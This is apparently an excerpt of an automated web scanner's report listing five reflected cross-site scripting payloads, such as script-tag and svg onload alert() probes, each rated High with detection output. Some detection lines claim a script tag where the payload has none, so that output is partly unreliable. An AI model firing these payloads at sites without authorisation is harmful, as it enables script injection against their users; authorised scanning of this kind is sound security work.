 #### XSS Evidence Details

*Severity:* `High`
##### Payload: `<script>alert('XSS')</script>`
```
Payload reflected: <script>alert('XSS')</script>

Detected <script> tag in response.

Detected alert() in response.
```

*Severity:* `High`
##### Payload: `"><img src=x onerror=alert(1)>`
```
Payload reflected: "><img src=x onerror=alert(1)>

Detected <script> tag in response.

Detected alert() in response.

Detected image/event XSS payload.
```

*Severity:* `High`
##### Payload: `<svg/onload=alert(1)>`
```
Payload reflected: <svg/onload=alert(1)>

Detected <script> tag in response.

Detected alert() in response.
```

*Severity:* `High`
##### Payload: `<body onload=alert('xss')>`
```
Payload reflected: <body onload=alert('xss')>

Detected <script> tag in response.

Detected alert() in response.
```

*Severity:* `High`
##### Payload: `"><svg onload=alert('xss')>`
```
Payload reflected: "><svg onload=alert('xss')>

Detected <script> tag in response.

Detected alert() in response.
```
